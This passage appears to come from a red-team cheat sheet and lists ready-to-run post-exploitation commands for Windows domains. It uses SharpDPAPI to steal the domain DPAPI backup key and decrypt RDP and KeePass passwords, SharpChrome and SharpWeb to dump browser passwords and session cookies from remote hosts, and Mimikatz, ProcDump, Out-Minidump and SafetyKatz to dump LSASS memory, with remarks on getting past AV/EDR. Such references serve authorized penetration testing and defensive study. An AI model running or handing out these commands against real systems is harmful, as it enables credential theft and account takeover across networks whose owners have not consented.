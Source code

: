 ------------------------------------------------------------------------------------------
## Exploitation

### DPAPI decryption and extraction on Windows systems
[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
```
# SharpDPAPI to retrieve domain DPAPI backup key and output to file which is used for subsequent attacks (requires DA privileges)
execute-assembly SharpDPAPI.exe backupkey /file:key.pvk

# Decrypt any RDG (remote desktop) passwords found using the domain backup key (can also use local Admin account or master key)
execute-assembly SharpDPAPI.exe rdg /pvk:key.pvk /unprotect

# Decrypt any KeePass passwords found using the domain backup key (can also use local Admin account or master key)
execute-assembly SharpDPAPI.exe keepass /pvk:key.pvk /unprotect
```

SharpChrome to extract and decrypt a user's Chrome sessions/passwords
```
# Dumping Chrome login passwords on remote machines using the domain backup key (can also use local user password)
execute-assembly SharpChrome.exe logins /pvk:key.pvk /server:SERVER.lab.com

# Dumping and decryptiong Chrome user cookies and sessions on remote machines using the domain backup key (can also use local user password)
# Cookies can then be imported into Chrome/Firefox using the extension Cookie-Editor
execute-assembly SharpChrome.exe cookies /pvk:key.pvk /server:SERVER.lab.com /format:json
```

### [SharpWeb](https://github.com/djhohnstein/SharpWeb) - Retrieve saved credentials in Chrome, Firefox and Edge
```
# Retrive all saved browser credentials
execute-assembly C:\SharpWeb.exe all
```
------------------------------------------------------------------------------------------
## Exfiltration - Password Attacks

### Dumping LSASS locally (all commands below require local Admin)
Mimikatz built-in to dump passwords/hashes to console
```
# Works against most updated systems with AV/EDR if running as SYSTEM
logonpasswords
```
Dumping LSASS with ProcDump.exe (requires touching disk) (NOTE: Might get flagged by AV and raise alerts but will often still output dump file)
```
upload --> ProcDump.exe
run ProcDump.exe -accepteula -ma lsass.exe lsass.dmp
```
Dumping LSASS with [Out-Minidump.ps from PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) without touching disk
```
powershell Get-Process | Out-Minidump -DumpFilePath C:\temp
```
Extract LSASS process with [SafetyKatz](https://github.com/GhostPack/SafetyKatz)
```
execute-assembly C:\SafetyKatz.exe --> Dumps LSASS process to .dmp file on the local system
```
Extracting passwords/hashes offline from LSASS dump using Mimikatz (ON YOUR OWN SYSTEM!)
```
```